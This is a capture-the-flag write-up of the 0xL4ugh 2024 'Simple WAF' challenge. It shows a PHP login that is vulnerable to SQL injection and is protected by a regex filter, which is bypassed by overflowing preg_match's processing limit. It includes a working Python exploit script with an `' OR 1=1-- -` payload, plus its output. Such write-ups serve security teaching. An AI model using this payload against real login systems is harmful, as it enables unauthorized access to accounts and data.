# Simple WAF

## Table of Contents

1. [Overview](#overview)
2. [Background](#background)
3. [Enumeration](#enumeration)
4. [Exploitation](#exploitation)
5. [Conclusion](#conclusion)

## Overview

- Solved by: @.h0ps
- Contributor: @Colonneil
- 42 solves / 198 points
- Difficulty: Medium
- Author: abdoghazy
- Overall difficulty for me (From 1-10 stars): ★★★☆☆☆☆☆☆☆

## Background

i whitelisted input values so, i think iam safe : P

[Link](http://20.115.83.90:1339/)

![](https://github.com/siunam321/CTF-Writeups/blob/main/0xL4ugh-CTF-2024/images/Pasted%20image%2020240211160535.png)

## Enumeration

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/0xL4ugh-CTF-2024/images/Pasted%20image%2020240211160703.png)

In here, we can login as an account.

Although this page has 2 links: "Forget password?" and "Sign up", they both return HTTP status "404 Not Found":

![](https://github.com/siunam321/CTF-Writeups/blob/main/0xL4ugh-CTF-2024/images/Pasted%20image%2020240211160848.png)

In the login page, we can try to enter some dummy credentials:

![](https://github.com/siunam321/CTF-Writeups/blob/main/0xL4ugh-CTF-2024/images/Pasted%20image%2020240211161017.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/0xL4ugh-CTF-2024/images/Pasted%20image%2020240211161026.png)

When we entered an incorrect credential, it'll pop up an alert box with text "Wrong Creds".

**Burp Suite HTTP history:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/0xL4ugh-CTF-2024/images/Pasted%20image%2020240211161119.png)

When we clicked the "Login" button, it'll send a POST request to `/` with parameter `username`, `password`, and `login-submit`.

**In this challenge, we can download a [file](https://github.com/siunam321/CTF-Writeups/blob/main/0xL4ugh-CTF-2024/Web/Simple-WAF/simple_waf_togive.zip):**
```shell
┌[siunam♥Mercury]-(~/ctf/0xL4ugh-CTF-2024/Web/Simple-WAF)-[2024.02.11|16:06:45(HKT)]
└> file simple_waf_togive.zip 
simple_waf_togive.zip: Zip archive data, at least v2.0 to extract, compression method=deflate
┌[siunam♥Mercury]-(~/ctf/0xL4ugh-CTF-2024/Web/Simple-WAF)-[2024.02.11|16:06:48(HKT)]
└> unzip simple_waf_togive.zip 
Archive:  simple_waf_togive.zip
  inflating: init.sh                 
   creating: src/
  inflating: src/db.php              
  inflating: src/index.php           
  inflating: Dockerfile              
  inflating: init.db                 
```

Let's read through this application's source code!

Luckily, this application is really simple.

**Logic of endpoint `/` POST request:**
```php
[...]
if(isset($_POST['login-submit']))
{
    if(!empty($_POST['username'])&&!empty($_POST['password']))
    {
        $username=$_POST['username'];
        $password=md5($_POST['password']);
        if(waf($username))
        {
            die("WAF Block");
        }
        else
        {
            $res = $conn->query("select * from users where username='$username' and password='$password'");
                                                                    
            if($res->num_rows ===1)
            {
                echo "0xL4ugh{Fake_Flag}";
            }
            else
            {
                echo "<script>alert('Wrong Creds')</script>";
            }
    }

    }
    else
    {
        echo "<script>alert('Please Fill All Fields')</script>";
    }
}
[...]
```

When we send a POST request with parameter `username`, `password`, and `login-submit`, it'll **check our `username` value against a "WAF"** (Web Application Firewall). After that, it'll execute a SQL statement to select a user from table `users` with our provided `username` and `password`.

However, **the SQL statement didn't use prepared statement**. Hence, **it's vulnerable to SQL injection**.

That being said, **we should be able to bypass the authentication with a simple SQL injection payload**.

**But before we do that, let's check out the `waf()` function:**
```php
[...]
function waf($input)
{
    if(preg_match("/([^a-z])+/s",$input))
    {
        return true;
    }
    else
    {
        return false;
    }
}
[...]
```

In here, our `username` is **being checked against a regular expression pattern** with PHP built-in function **`preg_match()`**.

In the regular expression pattern, it only allows the input is starts with 1 or more lowercase character `a` through `z`, and excluding newline characters (`s` modifier).

Hmm... **How can we bypass the WAF to inject our SQL injection payload**??

Based on my experience, **PHP is a weird language, sometimes it can do really weird stuff**, like let's say the built-in function `preg_match()`.

According to [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp#length-error-bypass), when a **very large valid input** is being parsed to `preg_match()`, **it'll just hit the limit and can't process it**. Hence, we can bypass the regular expression check by just sending a large valid input!

## Exploitation

**Armed with above information, we can write a simple Python script to send a large valid input, and append our SQL injection payload!**
```python
#!/usr/bin/env python3
import requests

def main():
    url = 'http://20.115.83.90:1339/'
    payload = 'A' * 1000001
    payload += '\' OR 1=1-- -'
    data = {
        'username': payload,
        'password': 'foobar',
        'login-submit': ''
    }

    response = requests.post(url, data=data)
    responseText = response.text
    if '0xL4ugh{' not in responseText:
        print('[-] The exploit failed...')
        exit(0)

    flag = responseText.split('\n')[0].strip()
    print(f'[+] The exploit worked! Here\'s the flag:\n{flag}')

if __name__ == '__main__':
    main()
```

```shell
┌[siunam♥Mercury]-(~/ctf/0xL4ugh-CTF-2024/Web/Simple-WAF)-[2024.02.11|16:49:12(HKT)]
└> python3 exploit.py
[+] The exploit worked! Here's the flag:
0xL4ugh{0ohh_You_Brok3_My_Wh1te_List!!!}
```

- **Flag: `0xL4ugh{0ohh_You_Brok3_My_Wh1te_List!!!}`**

## Conclusion

What we've learned:

1. PHP built-in function `preg_match()` bypass